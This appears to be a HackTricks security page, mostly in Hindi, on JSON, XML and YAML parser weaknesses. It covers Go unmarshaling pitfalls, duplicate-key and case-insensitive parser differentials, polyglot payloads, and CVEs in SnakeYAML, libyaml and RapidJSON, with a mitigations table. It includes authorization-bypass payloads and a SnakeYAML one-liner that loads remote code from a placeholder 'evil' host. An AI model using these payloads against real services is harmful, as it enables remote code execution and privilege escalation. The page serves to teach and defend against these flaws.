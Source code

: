 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Go JSON में निम्नलिखित समस्याएँ पाई गईं, हालाँकि ये अन्य भाषाओं में भी मौजूद हो सकती हैं। ये समस्याएँ [**इस ब्लॉग पोस्ट**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) में प्रकाशित की गई थीं।

Go के JSON, XML, और YAML पार्सर्स में असंगतियों और असुरक्षित डिफ़ॉल्ट्स की एक लंबी श्रृंखला है जिसका दुरुपयोग **प्रमाणीकरण को बायपास करने**, **अधिकारों को बढ़ाने**, या **संवेदनशील डेटा को एक्सफिल्ट्रेट करने** के लिए किया जा सकता है।

### (Un)Marshaling Unexpected Data

उद्देश्य उन स्ट्रक्चर्स का दुरुपयोग करना है जो हमलावर को संवेदनशील फ़ील्ड (जैसे, `IsAdmin`, `Password`) को पढ़ने/लिखने की अनुमति देते हैं।

- Example Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- सामान्य कमजोरियाँ

1. **गायब टैग** (कोई टैग नहीं = फ़ील्ड डिफ़ॉल्ट रूप से अभी भी पार्स किया जाता है):
```go
type User struct {
Username string
}
```
पेलोड:
```json
{"Username": "admin"}
```
2. **`-` का गलत उपयोग**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
पेलोड:
```json
{"-": true}
```
✔️ फ़ील्ड को (अन)मार्शल होने से रोकने का सही तरीका:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Differentials

उद्देश्य यह है कि विभिन्न पार्सर्स कैसे समान पेलोड को अलग-अलग तरीके से व्याख्या करते हैं, इसका लाभ उठाकर प्राधिकरण को बायपास किया जाए, जैसे कि:
- CVE-2017-12635: Apache CouchDB बायपास डुप्लिकेट कीज़ के माध्यम से
- 2022: Zoom 0-click RCE XML पार्सर असंगति के माध्यम से
- GitLab 2025 SAML बायपास XML विशेषताओं के माध्यम से

**1. Duplicate Fields:**
Go का `encoding/json` **अंतिम** फ़ील्ड लेता है।
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
अन्य पार्सर (जैसे, Java का Jackson) **पहला** ले सकते हैं।

**2. केस असंवेदनशीलता:**
Go केस-असंवेदनशील है:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
यहाँ तक कि यूनिकोड ट्रिक्स भी काम करते हैं:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. क्रॉस-सेवा असंगति:**
कल्पना करें:
- Go में लिखा गया प्रॉक्सी
- Python में लिखा गया AuthZ सेवा

हमलावर भेजता है:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python `UserAction` को देखता है, इसे अनुमति देता है
- Go `AdminAction` को देखता है, इसे निष्पादित करता है


### डेटा फ़ॉर्मेट भ्रम (Polyglots)

लक्ष्य उन सिस्टमों का शोषण करना है जो फ़ॉर्मेट (JSON/XML/YAML) को मिलाते हैं या पार्सर त्रुटियों पर खुला छोड़ देते हैं जैसे:
- **CVE-2020-16250**: HashiCorp Vault ने JSON को XML पार्सर के साथ पार्स किया जब STS ने XML के बजाय JSON लौटाया।

हमलावर नियंत्रित करता है:
- `Accept: application/json` हेडर
- JSON बॉडी का आंशिक नियंत्रण

Go का XML पार्सर इसे **फिर भी** पार्स करता है और इंजेक्ट की गई पहचान पर भरोसा करता है।

- तैयार किया गया पेलोड:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Result:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## उल्लेखनीय पार्सर कमजोरियाँ (2023-2025)

> निम्नलिखित सार्वजनिक रूप से शोषण योग्य मुद्दे दिखाते हैं कि असुरक्षित पार्सिंग एक बहु-भाषा समस्या है — केवल एक Go समस्या नहीं।

### SnakeYAML डीसिरियलाइजेशन RCE (CVE-2022-1471)

* प्रभावित: `org.yaml:snakeyaml` < **2.0** (Spring-Boot, Jenkins, आदि द्वारा उपयोग किया जाता है)।
* मूल कारण: `new Constructor()` **मनमाने Java क्लासेस** को डीसिरियलाइज करता है, जिससे गैजेट श्रृंखलाएँ बनती हैं जो दूरस्थ कोड निष्पादन में समाप्त होती हैं।
* One-liner PoC (कमजोर होस्ट पर कैलकुलेटर खोलेगा):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigation:
1. **≥2.0 में अपग्रेड करें** (डिफ़ॉल्ट रूप से `SafeLoader` का उपयोग करता है)।
2. पुराने संस्करणों पर, स्पष्ट रूप से `new Yaml(new SafeConstructor())` का उपयोग करें।

### libyaml Double-Free (CVE-2024-35325)

* प्रभावित: `libyaml` ≤0.2.5 (कई भाषा बाइंडिंग द्वारा उपयोग की जाने वाली C लाइब्रेरी)।
* समस्या: `yaml_event_delete()` को दो बार कॉल करने से डबल-फ्री होती है जिसे हमलावर DoS में बदल सकते हैं या कुछ परिदृश्यों में heap शोषण कर सकते हैं।
* स्थिति: अपस्ट्रीम ने “API misuse” के रूप में अस्वीकार कर दिया, लेकिन Linux वितरणों ने **0.2.6** पैच किया जो डिफेंसिव रूप से पॉइंटर को नल-फ्री करता है।

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* प्रभावित: Tencent **RapidJSON** कमिट `8269bc2` से पहले (<1.1.0-patch-22)।
* बग: `GenericReader::ParseNumber()` में अनचेक्ड अंकगणित हमलावरों को विशाल संख्यात्मक लिटेरल बनाने की अनुमति देता है जो लपेटते हैं और heap को भ्रष्ट करते हैं — अंततः प्रिविलेज-एस्केलेशन को सक्षम करते हैं जब परिणामी ऑब्जेक्ट ग्राफ को प्राधिकरण निर्णयों के लिए उपयोग किया जाता है।

---

### 🔐 Mitigations (Updated)

| जोखिम                                | सुधार / सिफारिश                                      |
|-------------------------------------|------------------------------------------------------------|
| अज्ञात फ़ील्ड (JSON)               | `decoder.DisallowUnknownFields()`                          |
| डुप्लिकेट फ़ील्ड (JSON)             | ❌ stdlib में कोई सुधार नहीं — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) के साथ मान्य करें |
| केस-इनसेंसिटिव मैच (Go)         | ❌ कोई सुधार नहीं — संरचना टैग + पूर्व-मानकीकरण इनपुट को मान्य करें   |
| XML गार्बेज डेटा / XXE              | एक हार्डन किए गए पार्सर का उपयोग करें (`encoding/xml` + `DisallowDTD`)     |
| YAML अज्ञात कुंजी                   | `yaml.KnownFields(true)`                                   |
| **असुरक्षित YAML डेसिरियलाइजेशन**     | SafeConstructor का उपयोग करें / SnakeYAML ≥2.0 में अपग्रेड करें            |
| libyaml ≤0.2.5 डबल-फ्री          | **0.2.6** में अपग्रेड करें या डिस्ट्रीब्यूशन-पैच रिलीज करें            |
| RapidJSON <पैच किया गया कमिट           | नवीनतम RapidJSON (≥जुलाई 2024) के खिलाफ संकलित करें              |

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
